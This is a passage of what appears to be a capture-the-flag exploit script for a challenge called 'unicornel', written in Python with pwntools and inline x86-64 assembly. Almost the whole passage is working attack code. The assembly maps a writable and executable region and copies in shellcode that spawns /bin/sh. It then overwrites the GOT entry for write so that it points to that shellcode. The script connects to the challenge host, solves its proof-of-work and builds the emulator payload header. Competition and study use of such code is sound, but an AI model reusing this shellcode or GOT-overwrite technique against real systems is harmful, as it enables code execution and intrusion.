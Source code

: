 ```python
        mov rax, 0x2
        int 0x80
    leak_pie_rwx_end:
    load_rce:
        /* map_address of 0x7000 to rwx address of choice where we will write rce code*/
        mov rbx, 0x7000
        mov rcx, 0x1000
        mov rdx, r10 # r10 = rwx address
        mov rax, 5
        int 0x80
        /* Fill shellcode to rwx which is mapped at 0x7000 */
        mov rdi, 0x7000
        lea rsi, [rip+get_shell]
        lea rcx, [rip+get_shell_end]
        sub rcx, rsi
        rep movsb
        get_shell:
            lea rdi, [rip+binsh_str]
            xor rsi, rsi
            xor rdx, rdx
            mov rax, 0x3b
            syscall
            binsh_str:
                .ascii "/bin/sh\0"
        get_shell_end:
    load_rce_end:
    load_got:
         /* map_address of 0x8000 to got address */
        mov rbx, 0x8000
        mov rcx, 0x1000
        mov rdx, r11 # r11 = write GOT address
        mov rax, 5
        int 0x80
        /* overwrite 0x8000 which contains the got entry for write with r10 -> addr to shellcode */
        mov qword ptr [rbx], r10
    load_got_end:
    password:
        .ascii "sup3r_s3cure_sj\0"
    memprot_x86_64:
        .ascii "memprot_x86_64\0"
''')
p = remote("unicornel-tz.2025.ctfcompetition.com", 1337)

p.recvuntil(b' solve ')
p.recvuntil(b' solve ')
to_solve = p.recvline().strip().decode()
print(f"{to_solve}")

sol = os.popen(f"python3 kctf-pow.py solve {to_solve} 2>/dev/null").read() #kctf-pow solver
print(sol)
p.sendlineafter(b"Solution? ", sol.encode())

p.recvuntil(b' unicornel!')

# Given format of header for the emulator
header = flat(
    p32(unicorn.UC_ARCH_X86),
    p32(unicorn.UC_MODE_64),
    p64(0x1000), p64(0x1000),          
    b'\0' * 3 * 16,              
    p16(len(code)),              
    p8(1)                        
).ljust(80, b'\0')
```